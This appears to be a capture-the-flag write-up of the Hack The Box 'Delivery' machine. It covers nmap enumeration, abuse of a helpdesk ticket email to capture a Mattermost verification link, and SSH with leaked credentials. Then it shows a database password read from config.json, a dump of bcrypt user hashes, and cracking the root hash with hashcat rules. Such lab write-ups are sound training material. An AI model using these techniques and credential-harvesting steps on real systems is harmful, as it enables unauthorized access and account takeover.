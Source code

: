 # Writeup

Start with usual nmap enumeration 
```
nmap -sC -sV -oN nmap-initial 10.10.10.222
```

Port 22 and 80 open where an nginx server is listening.  
We visit the service on port 80. The page contains links to 2 different domain name, namely helpdesk.delivery.htb and delivery.htb. We add them in our /etc/hosts file so that we can access them.

As described in the main page of delivery.htb we cannot access the Mattermost server if we don't have a delivery.htb account. The helpdesk server seems the first place we should look at.    
We start by poking around in the helpdesk servrer. We open a ticket and we get the following response message
```
zed, 

You may check the status of your ticket, by navigating to the Check Status page using ticket id: 9756656.

If you want to add more information to your ticket, just email 9756656@delivery.htb.

Thanks,

Support Team
```

If we move to the Check Status tab we can see the status of our ticket but nothing more than that.  

The first idea is to create a new delivery.htb account in the helpdesk server. However, once the registration completes, the account is locked until we confirm the sign in process through a verification email. A verification email that will obviously never arrive because the HTB machines do not talk to the internet.  

As a second idea we play with the osTicket api with the purpose of bypassing the verification of the account. This road is also a rabbit hole though.

The third idea is instead the successful one.   
We can visit the mattermost server and create an account. It again asks for a confirmation email if we want to finalize the registration. While the problem with the verification email is still the same we had before, we can now find a smarter way to keep the verification email inside of the HTB network. By looking closer at the previous response, namely
```
If you want to add more information to your ticket, just email 9756656@delivery.htb.
```
we suspect that each email sent to 9203128@delivery.htb will add information to the ticket, thus showing them in our Check Status tab.  
So, we create the account in the mattermost server with the email 9756656@delivery.htb, the content of the verification email will be visible in our Check status tab as supposed.

![verifiction email](verification_email.png)

We follow the link in the email and we can login to the MatterMost server.

![picture mattermost](mattermost.png)


Once logged in we can retrieve the credentials for the server `maildeliverer:Youve_G0t_Mail!`. We try them in ssh and yes, they are correct!.  
We get in and we have the user flag.  It's time now to go for root.

## Root

We can enumerate the victim machine using linpeas.


Interesting stuff from linpeas' report
1. `* * * * *       root    /root/mail.sh `
2. binary permissions `85M -rwxrwxr-x 1 mattermost mattermost  85M Dec 18 08:53 /opt/mattermost/bin/mattermost`
3. `root       908  0.0  0.4  29544 18336 ?        S    10:27   0:00 python3 /root/py-smtp.py'

Nothing that we can exploit though.  

The /opt directory is very interesting because it usually contains user programs. It's very likely to configuration files with hardcoded credentials or useful info.

### config.json
This is an extract of the config.json file inside the mattermost directory under /opt

1.
```
"EnableGifPicker": true,
"GfycatApiKey": "2_KtH_W5",
"GfycatApiSecret": "3wLVZPiswc3DnaiaFoLkDvB4X0IV6CpMkj4tf2inJRsBY6-FnkT08zGmppWFgeof",
```

2.
```
"DriverName": "mysql",
"DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
"DataSourceReplicas": [],
"DataSourceSearchReplicas": [],
"MaxIdleConns": 20,
"ConnMaxLifetimeMilliseconds": 3600000,
"MaxOpenConns": 300,
"Trace": false,
"AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
"QueryTimeout": 30,
"DisableDatabaseSearch": false
```


So we have 2 interesting things to look at. The first one is not sensible info though. Those are just the default api keys to select GIfs through the emoji picker.  
The second one is instead more interesting. We have in fact an username and a password for a mysql database.  
We thus try to connect to the mysql database: `mysql -u mmuser -p`. Obviously the password is `Crack_The_MM_Admin_PW`.  

Once we are in we take a look around, we enter the mattermost database (`use mattermost`) and we dump the valuable columns of the Users table.


```
MariaDB [mattermost]> select username,password,email,position,roles from Users;


+----------------------------------+--------------------------------------------------------------+----------------------------------+----------+--------------------------+
| username                         | password                                                     | email                            | position | roles                    |
+----------------------------------+--------------------------------------------------------------+----------------------------------+----------+--------------------------+
| redd                             | $2a$10$hKlb3XSk3jjLPd77EFtdCOM1W9NbHxZoOvaJ/oXED6Pk8ni44PGFq | 9050912@delivery.htb             |          | system_user              |
| lukaspre01                       | $2a$10$.qWymcm5r70PPx7M1ft4Ce2IYcizXWVbI5Uf6CYKLLtDurQC.h1LK | a@a.a                            |          | system_user              |
| surveybot                        |                                                              | surveybot@localhost              |          | system_user              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK | 4120849@delivery.htb             |          | system_user              |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G | 7466068@delivery.htb             |          | system_user              |
| vik0nd                           | $2a$10$Xvpuik3uk89i5BXNL.e0YesORDU3Zkq8EdNuDOjHxomo9.nFydq7S | vik0nd@delivery.htb              |          | system_user              |
| mario                            | $2a$10$XxiqFPPGPcsN/69AAEhWIOOAYBomsGUxgQ2vsxVlcwO4vGUvJNbx. | 300065@delivery.htb              |          | system_user              |
| visiter                          | $2a$10$p2haD2QwKc/a2whVopP.be5/kzD9j9Hidjz84PXZCZt5uL5Fh.8XS | 4808841@delivery.htb             |          | system_user              |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | root@delivery.htb                |          | system_admin system_user |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq | 9122359@delivery.htb             |          | system_user              |
| kr01lap1324                      | $2a$10$RKyOCA.5z/qlrRv9lUMpwOrML.RSfNR3qULV.xhURSZV9Q0zdEUWm | fvfmbadwiqmvnazjmp@upived.online |          | system_user              |
| channelexport                    |                                                              | channelexport@localhost          |          | system_user              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm | 5056505@delivery.htb             |          | system_user              |
| test                             | $2a$10$qvQsc6MM7HCKfU8biKfUlOloiaDqKAB5Jt7rWMZAP1pS1PV94lUFa | test@test.test                   |          | system_user              |
| lukaspre0                        | $2a$10$2pbXtl5L.CcdxOMgLVV1iedACIN6vlxPQWGkP9YFebhz/icHS.fw6 | hogin71087@zefara.com            |          | system_user              |
| cha                              | $2a$10$cBEzQzkYyPip0qOWijE3L.53Igq2KllSXfm7wwLf901Vf1GWlsRNi | 2061649@delivery.htb             |          | system_user              |
+----------------------------------+--------------------------------------------------------------+----------------------------------+----------+--------------------------+
16 rows in set (0.001 sec)
```

The dump shows a dozen of usernames and hashes. Part of the accounts have been created by other HTB player when registering to the mattermost server.

We take the root hash and we give it to hashcat. As highlighted by the chat in the mattermost server we saw before, the candidate password is a variation of PleaseSubscribe!.  
Thus we try to crack the hash keeping this in mind.

We take 'PleaseSubscibe!' and we try its variations using the hashcat rules. There is no need of writing personal rules since hashcat provides some of the most common rules for password cracking. In kali Linux they are stored under /usr/share/hashcat/rules/.

```
> hashcat -a 0 -m 3200 hash pass -r /usr/share/hashcat/rules/bes t64.rule

...
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
...
```

Cracked the hash, we can login as the root user: `su -` with password PleaseSubscribe!21

The root flag is there waiting for us.

